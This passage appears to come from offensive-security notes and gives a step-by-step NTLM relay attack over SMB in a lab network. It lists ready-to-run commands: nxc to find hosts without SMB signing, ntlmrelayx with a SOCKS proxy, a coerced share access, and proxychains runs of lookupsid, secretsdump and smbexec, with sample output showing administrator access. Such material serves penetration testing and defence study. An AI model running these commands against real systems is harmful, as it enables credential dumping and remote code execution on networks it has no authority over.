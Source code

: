      The malicious SMB server captures the Net-NTLM challenge-response.

  3. `Relay to Target SMB`

     Instead of cracking the Net-NTLM hash, the malicious server relays
     it in real-time to another server (the target), to authenticate the
     victim.

  4. `Obtain Unauthorized Access`

Execution steps

Obtain list of SMB servers that do not enforce signing and that can therefore be relayed.
```sh
nxc smb 192.168.122.30 --gen-relay-list out.txt
```

Start server to replay Net-NTLM hash
```sh
sudo ntlmrelayx.py --no-http-server -smb2support -t smb://192.168.122.30 -socks
```

Within the windows machine, force the victim to execute
```sh
dir \\192.168.122.1\test
```

At this point we have established an authenticated SOCKS proxy
```sh
ntlmrelayx> socks
Protocol  Target          Username               AdminStatus  Port 
--------  --------------  ---------------------  -----------  ----
SMB       192.168.122.30  HEXDUMP/ADMINISTRATOR  TRUE         445
```

We can use `proxychains` to proxy our commands using the authenticated session

- `lookupsid.py`
```sh
proxychains lookupsid.py -no-pass -domain-sids hexdump/administrator@192.168.122.30
```

- `secretsdump.py`
```sh
proxychains secretsdump.py -no-pass hexdump/administrator@192.168.122.30
```

- `smbexec.py`
```sh
proxychains smbexec.py -no-pass hexdump/administrator@192.168.122.30
```

---

## References

- https://sensepost.com/blog/2024/guest-vs-null-session-on-windows/
- https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4
- https://learn.microsoft.com/en-us/windows-server/storage/file-server/smb-signing?tabs=group-policy#disable-smb-signing
